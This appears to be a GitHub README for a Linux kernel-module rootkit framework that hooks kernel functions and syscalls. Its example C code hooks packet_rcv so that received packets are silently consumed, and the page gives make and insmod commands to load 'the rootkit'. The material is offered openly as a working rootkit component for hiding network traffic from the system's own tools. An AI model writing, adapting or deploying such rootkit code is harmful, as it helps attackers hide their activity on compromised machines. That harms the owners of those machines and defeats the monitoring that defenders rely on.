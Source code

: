 # LKM Hijacking Framework

- a small framework for hooking functions and syscalls for linux kernel module rootkits

***tested on:***
```
# uname -a
Linux SniperX-D 5.8.0-48-generic #54~20.04.1-Ubuntu SMP Sat Mar 20 13:40:25 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

### example for hiding packets (hooking packet_rcv):

a code sample for using the framework (see src/packet_hide.c):
```c
#include <linux/netfilter.h>
#include "function_hooking.h"

struct hooked_function packet_rcv; //the struct of a hooked function

int fake_packet_rcv(struct sk_buff *skb, struct net_device *dev,struct packet_type *pt, struct net_device *orig_dev)
{
	pr_info("im called! tpacket");
	consume_skb(skb); // "hide" the packet
	return 1;
}

int  init_packet_hide(void){
	pr_info("init_packet_hide");
	strcpy(packet_rcv.function_name,"packet_rcv"); //function's name
	packet_rcv.fake_function = &fake_packet_rcv; //fake function address
	hook_function(&packet_rcv); //hook the function
	return 1;
}

int exit_packet_hide(void){
	pr_info("exit_packet_hide");
	reset_function(&packet_rcv); //reset the function to its original state
	return 1;
}
```
to use the rootkit, run:
```sh
make

insmod hooking_test_lkm.ko
```
### live example:
![Live_example](live_example.gif)
